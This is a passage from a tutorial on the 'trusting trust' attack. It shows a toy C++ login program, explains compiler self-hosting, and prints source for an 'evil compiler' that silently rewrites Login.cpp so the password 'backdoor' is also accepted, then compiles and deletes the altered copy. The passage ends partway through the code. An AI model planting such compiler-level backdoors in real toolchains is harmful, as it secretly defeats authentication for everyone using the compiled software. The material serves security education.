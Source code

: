 ```cpp
        cout << "Wrong password, try again." << endl;
}
```

We can use our honest compiler to compile and run our Login program with `./Compiler Login.cpp -o Login && ./Login`.

Note that our compiler can compile its own source code with `./Compiler Compiler.cpp -o newCompiler` because our C++ compiler itself is written in C++. This allows for [self-hosting](https://en.wikipedia.org/wiki/Self-hosting_(compilers)), meaning that new releases of our compiler are compiled using a previous release. This is a very common practice - Python, C++, and Java all have self-hosted compilers. Self-hosting will become important in Step 3 when hiding our evil compiler.

### 2. Injecting Backdoors

Now let’s make our compiler inject a backdoor into the Login program that allows anyone to successfully login with the password “backdoor”. To accomplish this our compiler will do the following whenever it’s asked to compile `Login.cpp`:

1. Copy `Login.cpp` into a temporary file `LoginWithBackdoor.cpp`
2. Modify `LoginWithBackdoor.cpp` to also accept the password “backdoor” by doing a find-and-replace that modifies the if-condition checking the password
3. Compile `LoginWithBackdoor.cpp` instead of `Login.cpp`
4. Delete the file `LoginWithBackdoor.cpp`

Here is the source code for our evil compiler which executes these 4 steps - feel free to skip it if you understand the overall idea.

```cpp
// EvilCompiler.cpp

#include <string>
#include <cstdlib> 
#include <regex>
#include <fstream>
#include <sstream>
#include <iostream>

using namespace std;

// This searches the file and replaces all occurrences of regexPattern with `newText`
void findAndReplace(string fileName, string regexPattern, string newText) {
    ifstream fileInputStream(fileName);
    stringstream fileContents;
    fileContents << fileInputStream.rdbuf();
    string modifiedSource = regex_replace(fileContents.str(), regex(regexPattern), newText);
    ofstream fileOutputStream(fileName);
    fileOutputStream << modifiedSource;
    fileOutputStream.close();
}

void compileLoginWithBackdoor(string allArgs) {
    system("cat Login.cpp > LoginWithBackdoor.cpp");
    findAndReplace(
        "LoginWithBackdoor.cpp",
        "enteredPassword == \"test123\"",
        "enteredPassword == \"test123\" || enteredPassword == \"backdoor\""
    );
    string modifiedCommand = "g++ " + regex_replace(allArgs, regex("Login.cpp"), "LoginWithBackdoor.cpp");
    system(modifiedCommand.c_str());
    remove("LoginWithBackdoor.cpp");
}

int main(int argc, char *argv[]) {
    string allArgs = "";
```